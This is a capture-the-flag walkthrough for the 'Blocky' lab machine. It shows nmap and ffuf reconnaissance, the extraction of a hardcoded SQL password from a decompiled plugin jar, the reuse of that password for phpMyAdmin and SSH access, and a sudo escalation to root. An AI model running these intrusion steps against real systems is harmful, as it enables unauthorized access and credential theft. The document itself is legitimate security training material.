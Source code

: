 # Blocky 

## Nmap scanning 

```

sudo nmap -Pn -sS -sC  10.10.10.37
[sudo] password for kali: 
Sorry, try again.
[sudo] password for kali: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-06 16:35 EDT
Nmap scan report for 10.10.10.37
Host is up (0.43s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http
|_http-generator: WordPress 4.8
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos

Nmap done: 1 IP address (1 host up) scanned in 108.43 seconds
```

## Fuzzing directories

```

ffuf -u http://10.10.10.37/FUZZ -w /usr/share/wordlists/dirb/common.txt:FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.37/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.htaccess               [Status: 403, Size: 295, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 295, Words: 22, Lines: 12]
                        [Status: 200, Size: 52256, Words: 3306, Lines: 314]
.hta                    [Status: 403, Size: 290, Words: 22, Lines: 12]
phpmyadmin              [Status: 301, Size: 315, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 312, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
wiki                    [Status: 301, Size: 309, Words: 20, Lines: 10]
wp-admin                [Status: 301, Size: 313, Words: 20, Lines: 10]
wp-includes             [Status: 301, Size: 316, Words: 20, Lines: 10]
wp-content              [Status: 301, Size: 315, Words: 20, Lines: 10]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1]
:: Progress: [4614/4614] :: Job [1/1] :: 81 req/sec :: Duration: [0:06:29] :: Errors: 554 ::
```

in __/plugins__ there are two jar file, download both 

## Java Decompiler

unzip BlockyCore.jar 

use __jd_gui__ to check the BlockyCore.class

```

  public String sqlHost = "localhost";
  public String sqlUser = "root";
  public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```

use this to __log in__ to __phpmyadmin__

In the localhost database ` wordpress ` and within  ` wp_user ` table, we got a username `notch` 

from another table `wp_usermeta` we can confirm that notch has sysadmin capabilities

## Gaining Access and Exploitation

perform ssh using username `notch ` and the password we used to log into phpmyadmin

```

ssh notch@10.10.10.37 
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Sun Dec 24 09:34:35 2017
notch@Blocky:~$
```

we got logged in it, lets find user and root txt file

```

notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
********************************notch@Blocky:~$ cd /root
-bash: cd: /root: Permission denied
```

## Privilege escalation

```

notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL

notch@Blocky:~$ sudo -i
root@Blocky:~# cd /root
root@Blocky:~# cat root.txt
********************************root@Blocky:~# 
```

